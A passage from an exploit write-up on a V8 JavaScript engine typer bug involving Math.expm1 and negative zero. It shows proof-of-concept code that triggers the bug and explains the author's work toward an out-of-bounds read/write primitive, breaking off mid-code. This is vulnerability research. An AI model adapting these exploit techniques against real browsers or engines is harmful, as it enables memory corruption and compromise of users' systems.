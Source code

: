 The final code used for triggering the bug, exactly in the phase we
wanted (with a minor change to force it to be an integer, which will
be useful in the next stages of writing this exploit):

```js
function _auxiliary_(x) {
	var a = {zz : Math.expm1(x), yy : -0};
	a.yy = Object.is(a.zz, a.yy);
	return a.yy;
}

function trigger() {
	var a = { z : 1.2 };
	a.z = _auxiliary_(-0);
	return (a.z + 0); // Real: 1, Feedback type: Range(0, 0)
}

_auxiliary_(0);
%OptimizeFunctionOnNextCall(_auxiliary_);
_auxiliary_("0");

trigger();
%OptimizeFunctionOnNextCall(trigger);
trigger();
```

## Escalating to an OOB RW

Once we have the bug triggering as expected, we have to now start to
abuse this. The plan was to add an array of floats, and use this
mismatched value in order to have the value at some `x` which is
outside the array, but have the optimizer think that we are indexing
from 0. This way, the optimizer would eliminate the `CheckBounds`
node, and we'll have an OOB RW primitive.

Unfortunately, this is easier said than done. Due to the nature of
this bug, and the method I was using to ensure it stays a `Call` node,
the "inlining" phase (in particular, `JSNativeContextSpecialization`
which runs during that phase) _splits_ the `CheckBounds` node into
`CheckBounds` and `NumberLessThan` nodes. The "real" length check now
happens at the `NumberLessThan`, and unfortunately, the "simplified
lowering" phase does not propagate feedback types along
`NumberLessThan` nodes.

This had me stumped for a while, and I kept trying various different
alternative ways of calling things, and also read through a lot of the
v8 code base, trying to understand how to prevent this from happening.

I finally stumbled upon this (basically, it required having both
functions take and pass the same arguments):

```js
function _auxiliary_(minusZero, isstring) {
	let aux_x = minusZero ? -0 : (isstring ? "0" : 0);
	let aux_a = {aux_z : Math.expm1(aux_x), aux_y : -0};
	aux_a.aux_y = Object.is(aux_a.aux_z, aux_a.aux_y);
	return aux_a.aux_y;
}

function trigger(minusZero, isstring) {
	let a = { z : 1.2 };
	a.z = _auxiliary_(minusZero, isstring);
	let i = a.z + 0; // Real: 1, Feedback type: Range(0, 0)
	i &= 1;		 // feedback: 0
	i *= 6;		 // feedback: 0

```